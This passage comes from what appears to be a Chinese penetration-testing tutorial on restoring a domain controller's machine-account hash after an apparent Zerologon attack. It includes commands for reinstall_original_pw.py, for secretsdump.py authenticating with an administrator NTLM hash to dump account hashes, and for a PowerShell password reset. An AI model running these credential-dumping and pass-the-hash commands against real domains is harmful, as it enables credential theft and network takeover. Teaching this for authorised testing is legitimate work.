 使用了上面的方法获得了域控机器账号的原始哈希后，我们可以使用reinstall_original_pw.py 脚本执行如下命令恢复域控机器账号的原始哈希。该脚本在计算密码的时候使用了空密码的哈希去计算 session_key，然后指定机器账号的原始 NTLM 哈希即可还原。

```
#恢复域控哈希
python3 reinstall_original_pw.py AD01 10.211.55.4 37945b4d7e794816622f47aa8e3b60b8
```

恢复成功后，使用 secretsdump.py 执行如下命令导出域控 AD01 的机器账号AD01$的哈希来确认是否恢复完成。

```
python3 secretsdump.py xie.com/administrator@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:33e17aa21ccc6ab0e6ff30eecb918dfb -just-dc-user " AD01$"
```

如图所示，可以看到域控机器账号 AD01 的哈希恢复了。

![截图](df52dc208b174824d066e86c9dbf7d9d.png)

#### （3）powershell 命令重置哈希

也直接在域控上执行如下 powershell 命令，该命令会重置计算机的机器帐户密码。重置后，活动目录数据库，注册表，lsass 进程里面的密码均一致。但是重置后的密码与之前的原始密码不一致。

```
powershell Reset-ComputerMachinePassword
```